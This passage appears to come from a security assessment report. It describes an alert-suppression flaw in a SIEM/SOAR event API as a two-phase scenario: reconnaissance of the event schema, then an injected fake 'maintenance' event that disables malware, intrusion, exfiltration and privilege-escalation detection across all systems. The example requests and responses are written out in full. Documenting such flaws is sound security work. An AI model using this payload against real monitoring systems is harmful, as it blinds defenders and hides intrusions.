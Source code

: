 ## 2. SIEM/SOAR Security Control Manipulation

### 2.1 Critical Vulnerability: Security Event Injection (CVSS 9.4)

**Exploitation Scenario: "The Invisible Attacker"**

**Phase 1: Security Event System Reconnaissance**
```http
GET /api/siem/events/schema HTTP/1.1
Authorization: Bearer [VALID_TOKEN]

Response: 200 OK
{
  "event_schema": {
    "event_type": "string",
    "priority": ["info", "warning", "critical"],
    "source": "string",
    "metadata": "object",
    "suppress_alerts": "boolean",    // ❌ DANGEROUS: Allows alert suppression
    "override_rules": "array"        // ❌ DANGEROUS: Allows rule bypass
  }
}
```

**Phase 2: Malicious Event Injection**
```http
POST /api/siem/events HTTP/1.1
Content-Type: application/json
Authorization: Bearer [VALID_TOKEN]

{
  "event_type": "system_maintenance",
  "priority": "info", 
  "source": "system_admin",
  "suppress_alerts": true,
  "override_rules": [
    "malware_detection",
    "intrusion_detection", 
    "data_exfiltration_detection",
    "privilege_escalation_detection"
  ],
  "metadata": {
    "maintenance_window": "2025-08-06T00:00:00Z to 2025-08-06T23:59:59Z",
    "affected_systems": "*",
    "disable_monitoring": true
  }
}

Response: 200 OK
{
  "event_id": "evt_malicious_123",
  "status": "processed",
  "rules_suppressed": 4,
  "monitoring_disabled": true
}
```
